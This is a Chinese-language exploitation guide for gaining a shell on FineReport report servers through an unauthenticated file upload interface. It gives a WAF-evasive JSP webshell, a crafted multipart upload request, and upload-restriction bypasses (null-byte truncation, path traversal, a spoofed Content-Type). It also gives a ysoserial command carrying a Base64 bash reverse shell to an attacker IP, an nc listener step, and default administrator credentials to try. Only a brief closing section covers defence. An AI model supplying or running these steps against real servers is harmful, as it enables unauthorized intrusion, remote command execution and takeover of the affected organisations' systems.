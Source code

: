 针对 **帆软 FineReport** 的未授权任意文件上传漏洞 GetShell 方法如下。FineReport 使用 Tomcat 作为 Web 容器，且具有特定的目录结构，需精确上传到可执行路径：

---

### **关键路径说明**
| **类型**       | **路径**                                      | **说明**                                                                 |
|----------------|----------------------------------------------|--------------------------------------------------------------------------|
| **Web 根目录** | `[FineReport安装目录]/webapps/webroot/`       | FineReport 的 Web 应用根目录（不是 Tomcat 默认的 `ROOT`）                |
| **上传入口**   | `/WebReport/ReportServer`                     | 常见未授权上传接口（如 `op=fr_remote`、`op=chart_save` 等）              |
| **有效路径**   | `webapps/webroot/help/`                       | 默认有读写权限，可上传 JSP Webshell                                      |
| **报表路径**   | `webapps/webroot/reportlets/`                 | 存储报表文件（`.cpt`），可尝试覆盖或上传 JSP                             |

---

### **详细利用步骤**

#### 1. **准备 JSP Webshell**
使用免杀 Webshell（避免被安全设备检测）：
```jsp
<%!
    class U extends ClassLoader {
        U(ClassLoader c) { super(c); }
        public Class g(byte[] b) { return super.defineClass(b, 0, b.length); }
    }
    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("pass");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>
```
> 此 Webshell 通过类加载器执行 Base64 编码的字节码，可绕过常见 WAF。

#### 2. **定位上传接口**
FineReport 常见未授权上传接口：
```http
POST /WebReport/ReportServer?op=fr_remote&cmd=design_save HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryABC123

------WebKitFormBoundaryABC123
Content-Disposition: form-data; name="file"; filename="shell.jsp"
Content-Type: application/octet-stream

<JSP_WEBSHELL_CONTENT>
------WebKitFormBoundaryABC123--
```
> 其他可能接口：`op=chart_save`、`op=svg`、自定义报表上传等。

#### 3. **绕过上传限制**
- **后缀名绕过**：FineReport 可能限制 `.jsp`，尝试以下技巧：
  ```http
  filename="shell.jsp%00.png"     # 利用空字节截断
  filename="../../webroot/help/shell.jsp"  # 路径遍历到可执行目录
  ```
- **Content-Type 绕过**：
  ```http
  Content-Type: image/png         # 伪装为图片
  ```

#### 4. **上传到有效路径**
**首选路径**：`/help/` 目录（通常有写权限+执行权限）
```http
filename="../../webroot/help/shell.jsp"
```
> 若失败，尝试覆盖报表文件：
> ```http
> filename="../../webroot/reportlets/shell.jsp"  # 覆盖报表文件（风险较高）
> ```

#### 5. **访问 Webshell**
- **标准路径**：
  ```
  http://target:port/webroot/help/shell.jsp?pass=<base64_encoded_payload>
  ```
- **报表路径**：
  ```
  http://target:port/webroot/reportlets/shell.jsp?pass=<base64_encoded_payload>
  ```

#### 6. **执行命令**
生成 **Base64 编码的字节码**（使用 [ysoserial](https://github.com/frohoff/ysoserial)）：
```bash
# 生成反弹 Shell 的 CommonsBeanutils1 载荷
java -jar ysoserial.jar CommonsBeanutils1 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMS80NDQ0IDA+JjE=}|{base64,-d}|{bash,-i}" | base64 -w 0
```
> 替换 `YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMS80NDQ0IDA+JjE=` 为你的反向 Shell 命令的 Base64。

**访问 URL**：
```
http://target:8080/webroot/help/shell.jsp?pass=rO0ABXNyADRzdW4ucmVmbGVjdC5hbm5vdGF0aW9uLkFubm90YXRpb25JbnZvY2F0aW9uSGFuZGxlclXK9Q8Vy36lAgACTAAMbWVtYmVyVmFsdWVzdAAPTGphdmEvdXRpbC9NYXA7TAAEdHlwZXQAEUxqYXZhL2xhbmcvQ2xhc3M7eHBzcgAxb3JnLmFwYWNoZS5jb21tb25zLmJ...（长Base64）
```

#### 7. **获取交互式 Shell**
在攻击机监听：
```bash
nc -lvnp 4444
```

---

### **FineReport 特定技巧**
1. **利用报表文件（.cpt）**  
   上传恶意 `.cpt` 报表文件（需后台权限编辑），但未授权上传通常不可行。

2. **内存马注入**  
   若无法上传文件，可尝试通过上传接口注入内存马（需利用 Java 反序列化或表达式注入）。

3. **默认密码与配置**  
   检查 FineReport 后台（`/webroot/decision`）：
   - 默认账号：`admin`/`空密码`
   - 安装后未修改密码可直接登录部署 Webshell。

---

### **防御建议**
1. **升级到最新版本**：修复已知漏洞（如 FR 2020-2022 多个上传漏洞）。
2. **禁用危险接口**：在 `fr-config.xml` 中关闭 `fr_remote` 等接口。
3. **目录权限控制**：
   ```xml
   <!-- 在 Tomcat 的 web.xml 中禁止执行 -->
   <context-param>
     <param-name>readonly</param-name>
     <param-value>true</param-value>
   </context-param>
   ```
4. **WAF 规则**：拦截 `../`、`.jsp` 等关键字符。

> **注意**：实际路径可能因版本和安装方式（独立 Tomcat/嵌入式）差异，需结合报错信息调整。
